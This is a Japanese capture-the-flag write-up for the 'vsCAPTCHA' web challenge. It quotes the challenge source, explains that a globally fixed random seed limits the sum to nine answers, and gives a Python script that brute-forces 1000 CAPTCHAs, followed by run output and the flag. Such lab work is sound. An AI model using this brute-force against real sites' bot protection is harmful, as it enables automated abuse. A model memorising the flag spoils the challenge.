 # vsCAPTCHA:Web:487pts
vsCAPTCHA: the ultimate solution to protect your site from 100% of bots, guaranteed!  
[https://vscaptcha-twekqonvua-uc.a.run.app](https://vscaptcha-twekqonvua-uc.a.run.app/)  
Downloads  
[vsCAPTCHA.zip](vsCAPTCHA.zip)  

# Solution
URLとソースが渡される。  
アクセスするとオレオレCAPTCHAが動いており、表示されている数字の足し算を1000回正解するとクリアのようだ。  
vsCaptcha  
[site.png](site/site.png)  
光学文字認識も不可能で一見すると安全だが、眺めていると不審な点に気づく。  
計算のもととなる二つの数字が`154~160`、`425~427`の間のみで動いている。  
乱数の生成部分がおかしいと予想し、配布されたソースを見ると以下のようであった。  
```ts
~~~
const FLAG = Deno.env.get("FLAG") ?? "vsctf{REDACTED}";
const captchaSolutions = new Map();

interface CaptchaJWT {
  exp: number;
  jti: string;
  flag?: string;
  failed: boolean;
  numCaptchasSolved: number;
}

const jwtKey = await jose.importPKCS8(
  new TextDecoder().decode(await Deno.readFile("./jwtRS256.key")),
  "RS256"
);
const jwtPubKey = await jose.importSPKI(
  new TextDecoder().decode(await Deno.readFile("./jwtRS256.key.pub")),
  "RS256"
);

const app = new Application();
const router = new Router();

const b1 = Math.floor(Math.random() * 500);
const b2 = Math.floor(Math.random() * 500);

~~~

router.post("/captcha", async (ctx) => {
  const stateJWT = ctx.request.headers.get("x-captcha-state");
  const body = await ctx.request.body({
    type: "json",
  }).value;
  const solution = body.solution;

  let jwtPayload: CaptchaJWT = {
    // 10 seconds to solve
    exp: Math.round(Date.now() / 1000) + 10,
    jti: crypto.randomUUID(),
    failed: false,
    numCaptchasSolved: 0,
  };

  if (stateJWT) {
    try {
      const { payload } = await jose.jwtVerify(stateJWT, jwtPubKey);
      jwtPayload.numCaptchasSolved = payload.numCaptchasSolved;

      if (
        !captchaSolutions.get(payload.jti) ||
        captchaSolutions.get(payload.jti) !== solution
      ) {
        const jwt = await new jose.SignJWT({
          failed: true,
          numCaptchasSolved: payload.numCaptchasSolved,
          exp: payload.exp,
        })
          .setProtectedHeader({ alg: "RS256" })
          .sign(jwtKey);

        ctx.response.headers.set("x-captcha-state", jwt);
        ctx.response.status = 401;
        return;
      }
    } catch {
      ctx.response.status = 400;
      return;
    }

    jwtPayload.numCaptchasSolved += 1;
  }

  const num1 = Math.floor(Math.random() * 7) + b1;
  const num2 = Math.floor(Math.random() * 3) + b2;

  const captcha = createCaptcha({
    width: 250,
    height: 150,
    // @ts-ignore provided options are merged with default options
    captcha: {
      text: `${num1} + ${num2}`,
    },
  });
~~~
});
~~~
```
jtiをキーとしたMapで数値の正誤判定が実装されているようだ。  
一度目の乱数生成がグローバルで宣言されており固定されている。  
二度目の乱数生成では一度目の乱数から`+7`、`+3`の範囲の整数でのみ変動するため、計算の答えは高々9通りの`579~587`である。  
jwtによるキーの受け渡しは10秒間の猶予があり、不正解である場合のリセットなどはないようなので、すべてのパターンをPOSTすれば正解を引き当てることができる。  
以下のimarobot.pyで行う(運営のサーバが貧弱でたびたび落ちたため、Speed up機構を導入している泣)。  
```python
import sys
import json
import base64
import requests

url = "https://vscaptcha-twekqonvua-uc.a.run.app"
#url = "http://localhost:8080" # Debug

res = requests.post(f"{url}/captcha", data="{}")
x_captcha_state = res.headers["x-captcha-state"]
print(base64.b64decode(x_captcha_state.split(".")[1] + "==").decode())

while True:
    for ans in [579, 580, 581, 582, 583, 584, 585, 586, 587]: # [154, 155, 156, 157, 158, 159, 160] + [425, 426, 427]
        res = requests.post(f"{url}/captcha", data=f"{{\"solution\": {ans}}}", headers={"x-captcha-state": x_captcha_state})
        if len(res.content) == 0: # Speed up!!
            continue
        try:
            state = base64.b64decode(res.headers["x-captcha-state"].split(".")[1] + "==").decode()
        except:
            print(res.headers["x-captcha-state"]) # Padding error?
        json_state = json.loads(state)
        print(state)
        if json_state["failed"] == False:
            if json_state["numCaptchasSolved"] >= 1000:
                print(f"Flag: {json_state['flag']}")
                sys.exit()
            x_captcha_state = res.headers["x-captcha-state"]
            break
```
実行する。  
```bash
$ python imarobot.py
{"exp":1657416673,"jti":"e43e4e71-afbe-4506-b0f7-a836448c3fab","failed":false,"numCaptchasSolved":0}
{"exp":1657416674,"jti":"72e4b5e7-3853-4a5f-8547-9bdc4e7ceed2","failed":false,"numCaptchasSolved":1}
{"exp":1657416677,"jti":"d39acf8e-4d55-4d91-a6f8-324fe1fea197","failed":false,"numCaptchasSolved":2}
~~~
{"exp":1657418403,"jti":"bf53eaf3-e73d-4f88-8db8-561a7cc5c1ac","failed":false,"numCaptchasSolved":998}
{"exp":1657418406,"jti":"27760cf6-5a2e-42d1-9408-bf5a09ac837c","failed":false,"numCaptchasSolved":999}
{"exp":1657418407,"jti":"7984a1c9-2345-49fd-89e2-1604de1ede16","failed":false,"numCaptchasSolved":1000,"flag":"vsctf{aut0m4t3d_act1vity_d3tected_s0lv3_1000_m0r3_c4ptcha5_t0_c0ntinu3}"}
Flag: vsctf{aut0m4t3d_act1vity_d3tected_s0lv3_1000_m0r3_c4ptcha5_t0_c0ntinu3}
```
flagが得られた。  

## vsctf{aut0m4t3d_act1vity_d3tected_s0lv3_1000_m0r3_c4ptcha5_t0_c0ntinu3}